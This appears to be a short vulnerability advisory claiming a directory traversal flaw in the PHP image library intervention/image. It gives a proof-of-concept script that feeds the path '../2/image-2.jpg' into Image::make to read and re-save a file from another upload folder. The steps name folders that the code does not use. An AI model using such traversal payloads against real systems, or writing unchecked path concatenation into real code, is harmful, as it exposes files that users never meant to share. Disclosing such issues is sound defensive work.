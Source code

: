 # Description

`intervention/image` is an image handling and manipulation library. This package is vulnerable to Directory Traversal attack.

# POC

1. Create a project dir in your htdocs folder
2. Install the package using composer. [here](http://image.intervention.io/getting_started/installation)
3. Create the below folder structure where our images will be stored on your project root dir
```
uploads
-> first-folder
--> image-1.jpg
-> second-folder
--> image-2.jpg
```
4. Create a test.php file on your project root dir then copy and paste this code below
```
<?php

require 'vendor/autoload.php';

$imageFilename = '../2/image-2.jpg';

// import the Intervention Image Manager Class
use Intervention\Image\ImageManagerStatic as Image;

// open an image file
$img = Image::make('uploads/1/'.$imageFilename);

// now you are able to resize the instance
$img->resize(320, 240);

// finally we save the image as a new file
$img->save('uploads/1/newphoto.jpeg');
```
5. Open terminal in your project root dir, then run command `php test.php`
6. Verify that the image is now on your `uploads/1/newphoto.jpeg` folder which is belongs to `uploads/2/image-2.jpeg`



